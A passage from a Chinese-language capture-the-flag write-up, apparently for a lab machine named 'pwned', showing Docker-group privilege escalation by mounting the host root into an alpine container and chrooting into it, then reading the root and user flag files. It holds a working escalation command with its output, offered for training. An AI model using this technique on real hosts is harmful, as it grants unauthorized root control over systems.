 ## 5.3 利用 Docker 提权至 Root

使用 `alpine` 镜像挂载宿主机根目录：

```bash
selena@pwned:/home/ariana$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@a0d013691f32:/# id
uid=0(root) gid=0(root) groups=0(root),...
```

**命令解析：**

- `-v /:/mnt`：将宿主机根目录挂载到容器的 `/mnt` 目录

  - `--rm`：容器退出后自动删除
  - `-it`：交互式终端
  - `chroot /mnt bash`：切换根目录到 `/mnt` 并执行 bash

  **知识点：** Docker 容器内的 root 用户可以访问挂载的宿主机文件系统，通过 `chroot` 切换到宿主机根目录，实现完全的系统控制权限。这是 Docker 组成员提权到 root 的经典方法。

  ## 5.4 获取 Flag

  读取 root 和 selena 用户的 flag：

  ```bash
  root@a0d013691f32:/# cat /root/root.txt
  4d4098d64e163d2726959455d046fd7c
  
  root@a0d013691f32:/# cat /home/selena/user2.txt
  711fdfc6caad532815a440f7f295c176
  
  You are near to me. you found selena too.
  Try harder to catch me
  ```
